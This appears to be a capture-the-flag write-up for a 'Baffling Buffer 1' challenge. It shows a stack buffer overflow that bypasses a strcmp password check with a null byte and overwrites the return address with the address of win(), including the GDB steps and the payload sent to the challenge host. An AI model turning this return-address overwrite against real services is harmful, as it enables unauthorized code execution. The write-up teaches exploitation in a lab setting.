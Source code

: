 # Baffling Buffer 1 - 225pts
> After pointing out the initial issue, the developers issued a new update on the login service and restarted it at host1.metaproblems.com 5151. Looking at the binary and source code, you discovered that this code is still vulnerable.
<hr>

Looking at the source code, we notice that the flag is in an entirely different function, 'win()'. This means we will have to use a shellcode overflow in order to call that function. If we look at the 'vuln()' function, we notice a 'strcmp' between the buffer and "Sup3rs3cr3tC0de". Per the C docs:

"This function starts comparing the first character of each string. If they are equal to each other, it continues with the following pairs until the characters differ or until a terminating null-character is reached."

We can try to trick the 'strcmp' call by adding a null-terminating character to "Sup3rs3cr3tC0de" and then adding our overflow data. 

First, I simply ran `bb1` with "Sup3rs3cr3tC0de", a null-terminator, and some extra characters to see if it would segfault.

```shell
python3 -c "print('Sup3rs3cr3tC0de\x00'+'a'*50)" | ./bb1
```

As I thought, it segfaulted. Thus, we can modify our input to write over the return value and access the 'win()' function. First, we have to find that memory address though. This can be done using GDB.
```shell
$ gdb bb1
(gdb) break main
(gdb) run
(gdb) info address win
>> Symbol "win" is at 0x401172 in a file compiled without debugging.
```

Now, it's a bit of trial and error to find the correct value to overflow. We also need to enable core dumps that way we can check where exactly the program segfaults at.

```shell
$ ulimit -c unlimited
$ python3 -c "print('Sup3rs3cr3tC0de\x00'+'a'*41)" | ./bb1
>> Access granted!
>> zsh: done                              python3 -c "print('Sup3rs3cr3tC0de\x00'+'a'*41)" | 
>> zsh: segmentation fault (core dumped)  ./bb1
$ gdb -q -c core -ex quit
>> Core was generated by `./bb1'.
>> Program terminated with signal SIGSEGV, Segmentation fault.
>> #0  0x0000000000400061 in ?? ()
```

From here, we can see that the program terminates at 0x400061. 61 is the ASCII representation of 'a'. So, we have one too many A's being input. All we have to do is change to print 40 a's and then append our address in hex.

```shell
$ python3 -c "print('Sup3rs3cr3tC0de\x00'+'a'*40+'\x72\x11\x40')" | ncat host1.metaproblems.com 5151
>> Access granted!
```

And we retrieved our flag.
